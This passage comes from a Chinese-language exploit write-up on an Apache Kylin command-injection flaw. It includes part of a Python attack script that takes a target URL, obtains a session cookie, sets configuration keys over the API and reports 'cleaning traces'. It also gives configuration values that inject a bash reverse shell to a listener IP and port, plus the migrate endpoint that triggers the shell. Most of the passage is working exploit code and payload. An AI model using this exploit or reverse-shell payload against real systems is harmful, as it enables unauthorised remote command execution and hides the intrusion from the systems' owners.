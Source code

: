 ```
        "Content-Type": "application/json;charset=UTF-8",
        "Pragma": "no-cache",
        "Cookie": "project=null;JSESSIONID=" + cookie
    }

    for i in range(0,3):
        data = """{"key":"%s","value":"%s"}""" % (key[i], value[i])
        try:
            response = requests.put(url=config_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将" + key[i] +"设置为" + value[i] +"\033[0m")
            else:
                print("\033[31m[x] 设置" + key[i] +"为" + value[i] +"失败\033[0m")
                sys.exit(0)
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
            sys.exit(0)
    print("\033[35m[o] 成功清理痕迹\033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    try:
        cookie,Authorization = POC_1(target_url)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")
        sys.exit(0)
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    POC_2(target_url, cookie, IP, PORT, Authorization)
    POC_3(target_url, cookie)
```

由此可以得出我们可以通过这两个可控的参数，执行任意我们需要的命令，例如反弹一个 shell，设置的配置为

```
kylin.tool.auto-migrate-cube.enabled=true
kylin.tool.auto-migrate-cube.src-config=echo;bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
kylin.tool.auto-migrate-cube.dest-config=shell
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el57b8IfopfgCseiaeLqFYp7EUVvibV1f70xc7GsX1fuzBiaibEseNJlI7Rtoq78g3ck3VILN916hMd7Rw/640?wx_fmt=png)

再去发送 POST 请求 **/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el57b8IfopfgCseiaeLqFYp7EXeB5HgwmTot9pdcezED3K4tvBAicecmDXsq0oI1PZ7D73BoheB7Nw9A/640?wx_fmt=png)

成功反弹一个 shell  

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el57b8IfopfgCseiaeLqFYp7EI0NLR6UoZfvoatK5ciaBIkX28K5XEwrPIzdZrQCFUodN64xGKMKv5Lg/640?wx_fmt=png)

漏洞利用 POC
--------
